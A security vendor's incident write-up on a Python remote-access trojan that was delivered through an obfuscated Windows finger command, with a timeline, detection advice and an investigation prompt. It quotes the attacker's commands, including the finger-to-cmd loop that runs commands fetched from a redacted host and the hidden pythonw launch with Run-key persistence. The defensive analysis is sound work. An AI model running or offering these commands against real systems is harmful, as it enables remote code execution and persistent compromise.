

The finger protocol is older than the web, disabled on every server that matters, and still a working malware delivery channel on a default Windows install. Here it planted a Python RAT that was alerting the whole time. One genuine compromise, drowned in thousands of benign look-alikes, invisible until something cut through the noise.
A compiled-Python remote-access trojan was re-launching on an employee’s laptop on every login, and the company’s endpoint agent was alerting on it the entire time. Every alert was configured alert-only, so it flagged and never contained. None were acted on.
The delivery mechanism was the giveaway: an obfuscated finger command, caret-escaped to read f^i^n^g^e^r, abusing the ancient Finger protocol to pull attacker commands off a remote host and run them inline.
From there the chain is modern and mundane: a signed Python interpreter dropped as a living-off-the-land binary, a .pyc payload staged in C:\ProgramData\, a registry Run key for persistence, and a second-stage module dropped by PowerShell an hour later. None of it was novel. All of it matches an active 2025–2026 campaign cluster.
What was missing was anyone connecting the alerts into a story. Which is where this one gets interesting: the customer had connected their endpoint telemetry to Artemis two days before it surfaced.
The expected behavior
The endpoint agent was not blind. Its behavioral rule for suspicious Python execution was firing on this host, with tens of thousands of alert events on the rule overall.
The problem was twofold.
The rule was configured alert-only. It flagged, and never contained.
And it was noisy. The same rule fired harmlessly on two other machines in the environment (one running ordinary developer tooling, another a vendor’s scientific-software installer) and those two produced the bulk of that volume. Python executing on a developer’s laptop is expected. Python executing from C:\ProgramData\ under a finger ancestor is not. But nothing in the rule could tell those apart.
The one genuinely compromised host was a needle in a haystack the rule itself had built. Every alert was individually true and collectively ignored.
The gap wasn’t detection. It was the distance between an alert firing and someone understanding what it meant.
The delivery: a protocol from 1977
The Finger protocol dates to 1977. It answers one question, “who is logged in on this host?”, over TCP port 79, and virtually nobody runs a finger daemon anymore.
But finger.exe still ships with Windows. In 2020, researcher John Page (hyp3rlinx) showed it could be turned into a file downloader: query user@host, and whatever the remote “finger server” returns comes back as text you can pipe straight into cmd. The LOLBAS project has carried the entry ever since, in the canonical form finger user@host | more +2 | cmd. The more +2 strips the protocol’s preamble so only the attacker’s commands reach the shell.
On this endpoint, the same idea appeared as a for loop:
cmd.exe /K for /f "skip=8 delims=" %T in ('f^i^n^g^e^r adfvjnujihbkj@REDACTED-DELIVERY-DOMAIN') do %TCode language: JavaScript (javascript)Two things are worth pulling apart.
The for /f "skip=8" is the header-strip primitive: drop the first eight lines of the finger response, treat every remaining line as a command, and execute it (do %T).
And the binary name is written f^i^n^g^e^r. The caret is cmd.exe‘s escape character, discarded at parse time, so the process that launches is finger. But any detection rule doing literal string matching on the command line sees f^i^n^g^e^r and misses it. Caret insertion is old, well-documented obfuscation tracing back to Daniel Bohannon’s DOSfuscation work, and pairing it with finger is exactly what current campaigns do.
The point of using finger is evasion. It isn’t HTTP, so web proxies and TLS inspection don’t see it. finger.exe is a legitimate signed Windows binary, so application allow-listing lets it run. And port 79 is unusual enough that most environments have no rule watching it, while finger.exe is common enough as a native binary that its execution looks unremarkable in isolation.
The chain, stage by stage
Two seconds after the finger call returned, the staged payload launched, and persistence went in at the same instant:
cmd /c start /b C:\ProgramData\Python\pythonw.exe C:\ProgramData\Python\main.pyc
cmd /c reg add HKCU\...\CurrentVersion\Run /v Py /t REG_SZ /d "...pythonw.exe ...main.pyc" /f >nul 2>&1Code language: JavaScript (javascript)The interpreter here, pythonw.exe, is the genuine, valid, Python-Software-Foundation-signed Python for Windows, dropped by the attacker and pointed at their own compiled main.pyc.
That is the living-off-the-land move. The malicious logic lives in the .pyc, and it runs inside a binary that every signature check and reputation service will call clean. pythonw.exe (as opposed to python.exe) runs with no console window, so nothing flickers on the user’s screen. start /b reinforces the background launch. The reg add writes an HKCU\...\Run value named Py so the RAT re-launches on every login, and >nul 2>&1 swallows the command’s output, so the persistence step leaves no visible trace.
The registry key did its job. Over the following day the payload re-executed on four separate logins.
Roughly 59 minutes after the initial infection, the running main.pyc spawned PowerShell, which dropped a second payload into a randomly-named directory:
C:\ProgramData\<random>\pythonw.exe __init__.pyCode language: CSS (css)A randomized directory name full of special characters is a hallmark of automated staging. And the shift to a different entry point (__init__.py rather than main.pyc) signals a distinct second module: a separate implant on top of the first-stage foothold.
| Time (UTC) | What happened | ATT&CK |
|---|---|---|
| Day 1 · 14:38:18 | Caret-obfuscated finger contacts an external host, executes the returned commands inline | T1105 · T1059.003 · T1027 |
| Day 1 · 14:38:20 | Signed pythonw.exe launches a compiled .pyc payload, hidden, from C:\ProgramData\ | T1218 · T1564.003 |
| Day 1 · 14:38:20 | Registry Run key Py written for persistence, output suppressed | T1547.001 |
| Day 1 · 15:37:13 | First-stage payload spawns PowerShell, drops a second module in a randomized directory | T1059.001 · T1105 |
| Day 2 · (×4 logins) | RAT re-executes on every login | T1547.001 |
| Day 4 | The endpoint feed is connected to Artemis | |
| Day 5 | Artemis surfaces the activity the alert-only EDR rule had flagged but left unactioned. The detection point |
This is a known technique, in an active resurgence
The honest framing for a chain like this is not “novel.” Every link is documented tradecraft, and the current wave is well-covered:
- Finger as a downloader is five years old (hyp3rlinx, 2020), with a stable LOLBAS entry. Its first real-world adopter was the Astaroth/Guildma banking trojan the same year.
- After going largely quiet, finger-over-TCP-79 delivery resurged from late 2025 inside ClickFix campaigns. SANS ISC tracked clusters like KongTuke and SmartApeSG through November and December 2025.
- The compiled-Python RAT second stage (signed
pythonw.exe,.pycpayloads in randomizedC:\ProgramData\directories,HKCU\...\Runpersistence) is a well documented RAT (see references)
So the value of catching this one is not discovery.
This host’s chain is consistent end-to-end with that active cluster. The artifacts we recovered aren’t enough to name a single family over ModeloRAT, lspy, or another CastleLoader payload, and we won’t pretend otherwise. We also can’t confirm how the very first command got there. The ClickFix pattern usually starts with a user pasting a command into the Run dialog, but the telemetry here begins at the finger call, so we treat initial access as consistent-with, not confirmed.
What matters is this: a decades-old protocol is being chained into current Python-RAT delivery, it is uncommon enough that most rules don’t watch for it, and on this host it was persisting and re-executing while the EDR alerted and no one acted.
How Artemis caught it
The customer had connected their endpoint feed to Artemis two days earlier. Artemis’s Environment Intelligence watches a new telemetry source as it comes online and surfaces what stands out.
Roughly 39 hours after the feed connected, it raised an insight on its own: compiled Python executing from an unusual location, with registry persistence, on one employee’s laptop.
A responder opened Artemis AI Mode and asked one question: “go deeper into the telemetry and tell me what is happening.”
The investigation agent took it from there. It:
- listed the available data sources, found the normalized alert fields mostly empty, and pivoted to the raw endpoint logs
- walked the process tree backward from the Python execution to the caret-obfuscated
fingercommand and the external host it contacted - pulled the daily alert volume across the rule and separated the malicious host from the noise
- checked the endpoint’s egress IP against threat intelligence, finding a residential ISP that was the user’s own benign network
- cleared the two other alerting machines as ordinary activity, isolating the compromise to a single host
- verified the interpreter’s signature (clean, as expected)
Then it wrote up a confirmed multi-stage compromise, high confidence: about twenty queries across five data sources (endpoint alerts, threats, and activities, plus firewall and Windows event logs) in roughly six minutes.
Artemis opened the case, the customer’s analyst reviewed it, and the endpoint was contained.
The reconstruction that took the agent six minutes is the one a human would have had to assemble by hand from tens of thousands of alerts across five log sources. Which is precisely why, until the feed reached Artemis, no human had.
What this means
Every alert in this story was true. Not one was acted on.
That’s not a tuning failure. It’s what happens when a rule can fire but can’t reason. The same behavioral rule that caught the RAT also caught a developer’s tooling and a vendor’s installer, and had no way to say which of the three mattered. It manufactured the haystack it then hid the needle in.
The delivery step compounds it. A 1977 protocol survives on a default Windows install, is signed, isn’t HTTP, and runs on a port nobody watches. Every property that makes finger.exe unremarkable in isolation is exactly what made it useful here.
What closed the gap was not a better rule. It was an investigator that could walk a process tree backward across five log sources, tell one host’s compromise apart from two hosts’ noise, and do it in six minutes, from telemetry the company already had and had already been collecting while the RAT re-launched on every login.
For defenders
Three things you can act on today, whatever you run:
1. Alert on finger.exe executing at all on a workstation, and treat any finger command line containing @ as high-signal. A finger client has essentially no legitimate use on a modern endpoint. This single rule would have caught the delivery step here on day one, and it’s cheap, because true benign volume is near zero.
2. Watch for interpreters and LOLBins running from C:\ProgramData\ and other world-writable staging paths, especially windowless (pythonw.exe, start /b). A validly signed binary is not exculpatory. The tell is the location it runs from and the parent that launched it. A signed Python launching a .pyc out of ProgramData under a cmd/finger ancestor is the intersection that matters, not any one event.
3. Don’t run high-value behavioral rules in alert-only mode without a triage path, and measure your alert-to-action gap. A rule that fires unread is worse than no rule: it manufactures the haystack. If a detection is trustworthy enough to auto-contain, let it. If it isn’t, it needs correlation and a human, not a silent counter.
Detection as a prompt
No single event says “this host is running a RAT.” The finger call, the ProgramData execution, and the Run-key write are separate records across process-creation, network, and registry telemetry, and the malicious one hides in tens of thousands of benign hits on the same rule. What connects them is a chain across sources, not a threshold on any one.
Artemis expresses threat hunts as instructions to an investigation agent rather than as static rules, which is what let this case walk the process tree back from a Python alert to the finger delivery. If you run an agentic investigation tool, the same idea ports directly.
Role: endpoint-compromise triage over the org’s own logs (process creation, registry, network/firewall, EDR alerts).
Trigger: a script interpreter (python, pythonw, node, wscript) executes from a world-writable path (C:\ProgramData\, C:\Users\Public\, %TEMP%), especially windowless, or an EDR rule fires repeatedly on one host with no analyst verdict.
Investigate, in order, and report what you find at each step:
1. Parentage. What launched the interpreter? Walk the process tree up. A cmd/powershell/finger ancestor, or a for /f loop parsing another process’s output, is the tell, not the interpreter itself.
2. Delivery. Look for a download-capable LOLBin in the ancestry: finger.exe with an @ in its command line, certutil, bitsadmin, curl/mshta reaching an external host. Decode any caret- or concatenation-obfuscated command names (f^i^n^g^e^r) before matching.
3. Persistence. Did the same host add a Run key, scheduled task, or startup entry pointing at that interpreter and payload path, close in time to the first execution? Suppressed output (>nul 2>&1) is a flag.
4. Staging and second stage. Enumerate what the interpreter wrote: compiled .pyc, a randomly-named sibling directory under ProgramData, a second interpreter with a different entry point spawned via PowerShell. Each new stage widens the foothold.
5. Signature is not safety. If the interpreter binary is validly signed (Python Software Foundation, Microsoft), treat that as expected, not exculpatory: the malicious logic is in the script it runs and the place it runs from.
6. Scope and live-vs-historical. Is the pattern on one host or many? Is it re-executing now (per-login process starts, active network to the delivery host)? If live, recommend device containment before the RAT is tipped off.
Do not treat a clean binary signature, an alert-only EDR verdict, or a low single-event severity as exoneration. The question is not whether each step was individually permitted; it is whether the chain, on this host, is a compromise.
Behavioral indicators
The durable signal is behavior, not values that rot:
- Finger client executing on a workstation, particularly with an
@in the command line, or caret-obfuscated (f^i^n^g^e^r), or paired with a for/f "skip=N"output-parsing loop. Delivery over TCP/79. - Signed pythonw.exe (or python.exe) launched from C:\ProgramData\ running a
.pyc, windowless, with acmd/finger/PowerShell parent. - HKCU\Software\Microsoft\Windows\CurrentVersion\Run value pointing at a Python interpreter in ProgramData, written with suppressed output.
- A second .pyc/__init__.py payload in a randomly-named C:\ProgramData\<random>\ directory, dropped by PowerShell spawned from the first stage.
References
The finger-as-downloader technique was first disclosed by John Page (hyp3rlinx) in 2020. See “Windows 10 Finger command can be abused to download or steal files” (BleepingComputer, 2020), which documents the original advisory.
The late-2025 ClickFix resurgence, including the KongTuke and SmartApeSG clusters, was tracked by SANS Internet Storm Center. See “Finger.exe & ClickFix” (Nov 2025) and “ClickFix Attacks Still Using the Finger” (Dec 2025).
The compiled-Python RAT second stage is documented in “ClickFix variant CrashFix deploying Python RAT” (Microsoft, Feb 2026) and “ClickFix Is Now Hiring: From Job-Platform Impersonation to Python-Based RAT Delivery” (LevelBlue SpiderLabs, Jun 2026).
Details are drawn from real findings in a customer environment. Details are anonymized and indicators sanitized.
To protect your organization from the full spectrum of machine-speed attacks see Artemis in action today: https://artemissecurity.com/demo/